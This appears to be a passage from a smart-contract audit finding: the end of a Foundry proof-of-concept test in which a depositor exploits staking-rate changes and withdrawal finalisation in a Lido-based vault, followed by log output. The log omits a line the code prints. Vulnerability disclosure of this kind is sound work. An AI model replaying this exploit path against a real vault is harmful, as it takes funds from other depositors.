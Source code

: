 ```solidity
        vm.deal(bob, variableCap / 2);

        vm.prank(alice);
        vault.deposit{value: alice.balance}(1);

        vm.prank(bob);
        vault.deposit{value: bob.balance}(1);

        lido.setRate(1.1e27);

        vm.startPrank(alice);
        vault.withdraw(1);
        vault.finalizeVaultOngoingVariableWithdrawals();
        vm.stopPrank();

        console.log("Alice's balance after first claim: %e", alice.balance);

        skip(1 days + 1);

        lido.setRate(1.21e27);

        vm.startPrank(alice);
        vault.withdraw(1);
        vault.finalizeVaultEndedWithdrawals(1);
        vm.stopPrank();

        vm.prank(bob);
        vault.withdraw(1);

        console.log("Alice's balance at the end: %e", alice.balance);
        console.log("Bob's balance at the end: %e", bob.balance);

        vm.prank(feeReceiver);
        vault.withdraw(1);

        vm.startPrank(fixedDepositor);
        vault.claimFixedPremium();
        vault.withdraw(0);
        vm.stopPrank();

        console.log("Vault's balance at the end: %e", address(vault).balance);
    }
}
```

```bash
testFirstVulnerabilityPath()
Logs:
  Alice's balance after first claim: 8e18
  Alice's balance at the end: 1.4e19
  Vault's balance at the end: 2e18
```
